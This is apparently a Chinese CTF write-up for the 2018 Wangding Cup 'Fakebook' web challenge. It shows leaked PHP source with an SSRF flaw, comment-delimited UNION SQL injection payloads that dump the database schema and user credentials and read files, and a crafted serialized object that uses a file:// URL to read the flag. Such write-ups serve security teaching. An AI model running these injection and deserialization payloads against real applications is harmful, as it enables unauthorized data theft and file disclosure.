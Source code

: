 ## 网鼎杯 2018 Fakebook

通过 robots.txt 看到信息泄露 `/user.php.bak`

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

存在一个 SSRF，但是正则限定了只能 http/https 的请求，所以这里的 SSRF 利用起来很有限。按照题目要求正常 join 一个 blog，点进去看。

![sql](sql.png)



测试用 SQL 注入 payload

```payload
?no=2 or 1=1
```

尝试联合查询，被 ban 了。后来发现只是过滤了空格。order by 判断为 4；这里尝试直接 `load_file` 读

```payload
?no=-1 union/**/select/**/1,load_file('/var/www/html/flag.php'),2,3 --+
```

![sql](flag1.png)

```payload
?no=1 order by 4

?no=-1 union/**/select/**/1,2,3,4

?no=-1 union/**/select/**/1,group_concat(schema_name),3,4/**/from/**/information_schema.schemata

?no=-1 union/**/select/**/1,group_concat(table_name),3,4/**/from/**/information_schema.tables/**/where/**/table_schema='fakebook'

?no=-1 union/**/select/**/1,group_concat(column_name),3,4/**/from/**/information_schema.columns/**/where/**/table_name='users'

?no=-1 union/**/select/**/1,group_concat(no,'~',username,'~',passwd,'~',data),3,4/**/from/**/fakebook.users

```

![sql](payload.png)

如此下来是得到了一串序列化的字符，回到前面 SSRF 的思路，如果 blog 内容可控，则可以任意文件读取。还有一种思路是 SQL 注入写入 shell。



根据之前的注入可知，有回显的是第二位，也就是`username`字段，`data`对应第四个字段。这里不难发现，有个报错是 `Notice: unserialize(): Error at offset 0 of 1 bytes in /var/www/html/view.php on line 31`

如此一来我们可以尝试一下是否可以直接在 data 处传参为反序列化的一串字符，观察结果

```php
<?php
class UserInfo
{
    public $name = "Drunkbaby";
    public $age = 7;
    public $blog = "file:///var/www/html/flag.php";

}
$res = new UserInfo();
echo serialize($res);

```

传参

```payload
O:8:"UserInfo":3:{s:4:"name";s:9:"Drunkbaby";s:3:"age";i:7;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```

![sql](write.png)

![sql](flag.png)

结果

```php
<?php
$flag = "flag{74bfb2e9-413c-4cf7-bf36-d5d9d76d1257}";
exit(0);
```





